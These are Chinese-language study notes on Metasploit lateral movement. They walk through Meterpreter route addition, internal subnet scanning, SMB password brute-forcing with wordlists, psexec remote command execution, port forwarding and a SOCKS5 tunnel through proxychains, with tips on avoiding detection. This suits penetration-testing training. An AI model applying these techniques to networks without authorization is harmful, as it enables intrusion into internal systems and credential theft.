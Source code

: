 # 1. 添加路由
- shell --> ipconfig
- run get_local_subnet
- route list
- run autoroute -s 【网段】                    //添加路由表方法一（在metepreter中）
- run autoroute -p                             //打印路由表
- backgroud --> route add 【网段】【掩码】【session id】      //添加路由表
- backgroud --> route remove 【网段】【掩码】【session id】   //删除路由表
- route print    //打印路由表（msf机器的）
- run arp_scanner -r          //扫描是否有存活主机（慎重考虑，使用该命令极易引起注意）

- 注意是在 metepreter 中添加路由
![[Pasted image 20230102103726.png]]

用arp扫描，实战还是建议用其他扫描，**在msf中使用nmap扫描比arp靠谱多了**。如果希望扫描端口，可以background后直接use一个portscan（如：auxiliary/scanner/portscan/tcp），然后把hosts设置为192.168.100.0/24

# 2. 连接数据库 postgresql
- 如果不连接数据库，msf一关，自己的渗透成果就没了
- apt-get install postgresql -y
 
## 配置 postgresql
修改postgresql系统用户密码：
> echo "postgres:(想要修改的密码)" | chpasswd      （这个是不交互的，执行就完事了）
> 修改postgresql数据库中默认用户postgres的密码
> su postgres
> psql
> \password postgres    (这里是修改数据库的密码)
> \q                  （退出）
> exit                 （返回root用户）

![[Pasted image 20230102104315.png]]

## msf 连接数据库
1. 把 db_connect postgres:password@127.0.0.1/msfdb 保存为⽂件 connection.rc
2. msfconsole -r connection.rc

- db_status          //查看数据库连接状态
- creds               //查看数据库记录
- 注：msfdb为新建的数据库，可以随意填写

常见问题：
1. sudo service postgresql start
2. 如果在msf中使用db_connect postgres:password@127.0.0.1/msfdb时爆出一下错误：
![[Pasted image 20230102110352.png]]
- 再开一个终端模拟器，输入psql后新建数据库即可
![[Pasted image 20230102110415.png]]

# 3. smb密码爆破+远程命令执行 
1、先添加路由，以便后续的端口扫描：
2、这里对整个网段进行端口扫描，发现106这台机子开放了445和3389端口
3、这里使用auxiliary/scanner/smb/smb_login，爆破smb，由于只是演示，我的smbuser和smbpass都只填了一个，实际应用中可以利用字典，例如：set rhosts file:/root/ip.txt、set userpass_file（添加密码字典）、set user_file  （添加账号字典）
实战中爆破不会很快的
远程命令执行：
search psexec 远程命令执行  这东西，个人感觉不大好用
use 1
set command whoami
set rohosts IP
exploit
四、MSF端口转发
1、端口转发：
命令其实很简单 portfwd add -l <msf接收的端口> -p <希望对方转出来的端口> -r <对方ip>
2、mstsc打开远程桌面连接，直接连上msf机器的6666端口就成了
五、Socks 代理
1、socks代理使用目的：
打个比方，如果你发现对方的web服务器后面还有三台内网机器，分别是OA、FTP、数据库服务器，如果这时候使用 socks 代理在我们的vps与web服务器上搭建了一条隧道，此时我们就相当于“进入”web服务器体内，这就意味这我们可以通内网，对这三台内网机器为所欲为了。注意：Socks代理不支持icmp和arp协议
2、当我们拿到metepreter后，需要先添加一个路由
3、接着我们background，将session放至后台，在查找一下socks模块，这里我们选择socks5
4、配置一下选项，注意，如果srvhost为0.0.0.0时意味着其他用户都可以利用端口进入这条隧道，内网渗透时最好不要这样，有被发现的风险，因此我们可以设置srvhost为127.0.0.1，这样只有我们能使用了
5、运行，然后jobs一下，发现已经开启进程了
6、这里我们需要使用proxychains工具 ，可以直接用apt-get install proxychains 安装一下，接着我们用vi /etc/proxychains.conf  命令，拉到最下面更改一下配置，更改为我们刚刚配置socks5时使用的设置
7、然后就可以使用proxychains curl http://192.168.100.97 ，尝试连接内网了

# Reference
- [MSF之基础横向渗透_51CTO博客_MSF技术](https://blog.51cto.com/u_15127652/4340505)
